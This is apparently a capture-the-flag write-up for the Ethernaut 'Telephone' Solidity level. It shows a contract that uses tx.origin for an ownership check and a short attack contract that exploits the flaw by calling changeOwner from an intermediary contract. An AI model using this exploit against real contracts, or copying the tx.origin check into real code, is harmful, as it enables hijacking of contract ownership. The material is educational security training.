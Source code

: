 # Description
Claim ownership of the contract below to complete this level.

  Things that might help

- See the Help page above, section "Beyond the console"

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

# Notes

This was again a straight forward challenge, to claim the ownership of contract, one must call the `changeOwner` function and has the `tx.origin` address different from the `msg.sender`, this is particularly true when calling the this function from another smart contract, in which case the `tx.origin` will be that of the original transaction sender, while the `msg.sender` will refer to the address of the contract from which you called the function.

- A simple attack contract will be something like this :
```solidity
// SPDX-License-Identifier: GPL-3.0

pragma solidity >=0.7.0 <0.9.0;

interface ITelephoneChallenge {
    function changeOwner(address new_owner) external;
}

contract AttackContract {

    ITelephoneChallenge public challenge;

    constructor() {
        challenge = ITelephoneChallenge(0x9aeAb833B62153e407073Bf092C042D1765d76FC);
    }

    function attack() external payable {
        challenge.changeOwner(tx.origin);
    }

}
```

